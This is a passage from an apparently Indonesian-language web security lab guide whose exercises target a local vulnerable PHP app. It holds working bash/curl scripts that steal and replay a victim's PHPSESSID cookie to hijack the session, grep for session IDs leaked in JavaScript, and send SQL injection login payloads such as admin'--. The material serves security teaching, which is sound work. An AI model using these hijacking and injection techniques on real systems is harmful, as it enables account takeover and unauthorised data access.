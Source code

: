 **Step 2: Session Hijacking Demo (10 min)**
```bash
# Simulate session hijacking
echo "=== SESSION HIJACKING SIMULATION ==="

# Step 1: Victim login
victim_response=$(curl -X POST http://localhost:8081/index.php \
  -d "username=john&password=password" \
  -c victim_cookies.txt -s)

if echo "$victim_response" | grep -q "Login successful"; then
  echo "✅ Victim logged in successfully"
  
  # Extract victim's session ID
  victim_session=$(grep PHPSESSID victim_cookies.txt | cut -f7)
  echo "🍪 Victim's Session ID: $victim_session"
  
  # Step 2: Attacker uses stolen session
  echo "🏴‍☠️ Attacker using stolen session..."
  attacker_response=$(curl -b "PHPSESSID=$victim_session" \
    http://localhost:8081/profile.php -s)
  
  if echo "$attacker_response" | grep -q -i "profile\|john"; then
    echo "🚨 HIJACK SUCCESSFUL! Attacker accessed victim's account"
  else
    echo "❌ Session hijacking failed"
  fi
else
  echo "❌ Victim login failed"
fi

# Cleanup
rm -f victim_cookies.txt
```

**Step 3: JavaScript Session Exposure (5 min)**
```bash
# Check for session exposure in JavaScript
echo "=== JAVASCRIPT SESSION EXPOSURE ==="
curl -s http://localhost:8081 | grep -A2 -B2 "console.log.*session"
```

**📝 Learning Questions:**
1. Apa saja cookie security flags yang missing?
2. Bagaimana attacker bisa mendapatkan session ID?
3. Mengapa session hijacking berhasil?

#### **💉 Lab 3.3: SQL Injection Discovery (25 min)**

**Objective**: Menemukan dan mengeksploitasi SQL injection

**Step 1: Error Discovery (10 min)**
```bash
echo "=== SQL INJECTION DISCOVERY ==="

# Test basic SQL injection payload
echo "Testing basic payload: admin'"
curl -X POST http://localhost:8081/index.php \
  -d "username=admin'&password=test" \
  -s | grep -i "error\|exception\|mysql" | head -3

echo ""
echo "Testing comment injection: admin'--"
curl -X POST http://localhost:8081/index.php \
  -d "username=admin'--&password=anything" \
  -s | grep -i "error\|exception\|mysql" | head -3
```